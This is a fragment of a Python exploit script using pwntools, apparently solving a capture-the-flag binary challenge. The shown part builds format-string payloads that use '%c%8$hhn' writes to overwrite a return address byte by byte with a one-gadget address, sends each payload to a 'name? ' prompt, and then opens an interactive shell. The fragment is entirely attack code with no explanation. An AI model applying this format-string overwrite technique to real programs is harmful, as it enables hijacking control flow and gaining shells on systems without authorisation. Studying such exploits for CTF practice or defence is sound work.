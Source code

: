 ```python
payload += b'A' * (8 - len(payload) % 8)
payload += p64(ret + 1)
p.sendlineafter(b'name? ',payload)

move()
payload = b'%' + bytes(str(int((hex(og)[8:10]),16)),'utf-8') + b'c%8$hhn'
payload += b'A' * (8 - len(payload) % 8)
payload += p64(ret + 2)
p.sendlineafter(b'name? ',payload)

move()
payload = b'%' + bytes(str(int((hex(og)[6:8]),16)),'utf-8') + b'c%8$hhn'
payload += b'A' * (8 - len(payload) % 8)
payload += p64(ret + 3)
p.sendlineafter(b'name? ',payload)

p.interactive()
```
